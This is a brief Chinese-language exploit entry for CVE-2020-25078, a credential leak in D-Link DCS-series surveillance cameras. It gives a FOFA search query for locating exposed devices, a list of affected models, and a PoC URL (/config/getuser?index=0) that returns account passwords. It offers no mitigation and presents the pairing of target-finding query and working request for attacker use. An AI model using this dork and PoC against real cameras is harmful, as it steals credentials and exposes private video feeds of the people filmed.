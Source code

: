 # D-Link DCS系列监控 账号密码信息泄露 CVE-2020-25078

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面。

FOFA：

app="D_Link-DCS-2530L"

影响版本：

* DCS-2530L
* DCS-2670L
* DCS-4603
* DCS-4622
* 等多个DCS系列系统

PoC：

```
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```

ref:

https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
